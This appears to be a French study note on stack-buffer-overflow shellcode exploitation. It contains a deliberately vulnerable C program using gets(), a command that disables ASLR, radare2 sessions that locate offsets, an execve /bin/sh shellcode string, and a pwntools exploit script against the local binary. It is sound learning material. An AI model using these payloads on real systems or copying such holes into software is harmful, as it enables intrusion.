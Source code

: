 ## Doc

- [Ghostsinthestack : Automatisation de la conception de shellcodes](https://web.archive.org/web/20070915050753/http://www.ghostsinthestack.org/article-7-automatisation-de-la-conception-de-shellcodes.html)

## Development

- https://stackoverflow.com/questions/15593214/linux-shellcode-hello-world/15704848#15704848
- https://zestedesavoir.com/articles/158/ecrivez-votre-premier-shellcode-en-asm-x86/
- https://github.com/voydstack/shellcoding/tree/master/x86
- https://syscall.sh/, https://syscalls.mebeim.net/?table=x86/64/x64/v6.6 , https://j00ru.vexillium.org/syscalls/nt/64/

## Programme vulnérable (cf ../stack/ret2libc)

```c
// gcc source.c -o vuln -no-pie -fno-stack-protector -z execstack -m32

#include <stdio.h>

void unsafe() {
    char buffer[300];
    
    puts("Overflow me");
    gets(buffer);
}

void main() {
    unsafe();
}
```
## Désactiver l'ASLR

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

## Trouver le padding

```bash
$ ragg2 -P 400 -r
<copy this>

$ r2 -d -A vuln
[0xf7fd40b0]> dc
Overflow me
<<paste here>>
[0x73424172]> wopO `dr eip`
312
```

## Trouver le buffer dans la mémoire 

```bash
$ r2 -d -A vuln

[0xf7fe3c60]> s sym.unsafe ; pdf
            ; CALL XREF from main @ 0x80491c1(x)
┌ 63: sym.unsafe ();
│           ; var int32_t var_4h @ ebp-0x4
│           ; var int32_t var_134h @ ebp-0x134
│           0x08049172      55             push ebp
│           0x08049173      89e5           mov ebp, esp
│           0x08049175      53             push ebx
│           0x08049176      81ec34010000   sub esp, 0x134
│           0x0804917c      e82fffffff     call sym.__x86.get_pc_thunk.bx
│           0x08049181      81c37f2e0000   add ebx, 0x2e7f
│           0x08049187      83ec0c         sub esp, 0xc
│           0x0804918a      8d8308e0ffff   lea eax, [ebx - 0x1ff8]
│           0x08049190      50             push eax
│           0x08049191      e8aafeffff     call sym.imp.puts           ; int puts(const char *s)
│           0x08049196      83c410         add esp, 0x10
│           0x08049199      83ec0c         sub esp, 0xc
│           0x0804919c      8d85ccfeffff   lea eax, [var_134h]
│           0x080491a2      50             push eax
│           0x080491a3      e888feffff     call sym.imp.gets           ; char *gets(char *s)
│           0x080491a8      83c410         add esp, 0x10
│           0x080491ab      90             nop
│           0x080491ac      8b5dfc         mov ebx, dword [var_4h]
│           0x080491af      c9             leave
└           0x080491b0      c3             ret
[0x08049172]> db 0x080491a8     <== Breakpoint after gets()
[0x08049172]> dc
Overflow me
<<Found me>>                    <== This was my input
hit breakpoint at: 80491a8
[0x080491a8]> px @ ebp - 0x134  <== Size of input
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0xffffcfb4  3c3c 466f 756e 6420 6d65 3e3e 00d1 fcf7  <<Found me>>....

[...]
```

## Exploitation

Débuggage attaché au processus avec gdb:

- ajout nopsled
- changement shellcode `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80` (len = 23)

![](./images/find_shellcode.png)

-> On trouve bien **l'addresse du shellcode** : 0xffffcfb4

Programme équivalent, mais  SIGSEV:

```python
from pwn import *

context.binary = ELF('./vuln')

p = process()

payload = asm(shellcraft.sh())          # The shellcode
payload = payload.ljust(312, b'A')      # Padding
payload += p32(0xffffcfb4)              # Address of the Shellcode

log.info(p.clean())

p.sendline(payload)

p.interactive()
```
